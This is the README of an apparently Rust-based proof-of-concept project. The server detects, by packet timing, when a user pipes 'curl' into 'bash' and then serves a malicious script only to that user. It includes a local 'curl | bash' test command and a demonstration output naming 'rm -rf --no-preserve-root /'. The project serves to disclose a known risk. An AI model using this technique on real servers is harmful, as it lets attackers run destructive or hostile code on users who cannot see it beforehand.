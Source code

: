 # bash-curl-attack

An implementation of an attack that detects a usage of `curl | bash` on the server side to serve a malicious script only to the users who run the command.

The attack utilizes the way `bash` scripts are executed and measures time between subsequent TCP packets are received to distinguish between running `curl | bash` vs just downloading the script. More details on how the attack works can be found in the [blog post](http://web.archive.org/web/20240423134349/https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/).

![Screencast](docs/screencast.svg)

## Quick Start

Make sure you have [cargo](https://doc.rust-lang.org/cargo/getting-started/installation.html) installed before proceeding.

```shell
cargo run
```

After that, in another terminal, you can test the attack by running:

```shell
curl -s http://localhost:8080 | bash
```

You should see `running rm -rf --no-preserve-root /...` in the terminal. Don't worry, the command is not actually executed, it's just a demonstration of the attack!

For comparison, you can run the following command:

```shell
curl -s http://localhost:8080 | cat
```

You should just see the following script in the terminal:

```shell
echo Hello!
sleep 2
echo nothing to do...
```

## License

The project is dual-licensed under the [MIT](LICENSE-MIT) and [Apache-2.0](LICENSE-APACHE) licenses.

## Attribution

The attack is based on [the blog post published on idontplaydarts.com](http://web.archive.org/web/20240423134349/https://www.idontplaydarts.com/2016/04/detecting-curl-pipe-bash-server-side/).

The source code uses an experimental web framework [Flareon](https://github.com/flareon-rs/flareon).
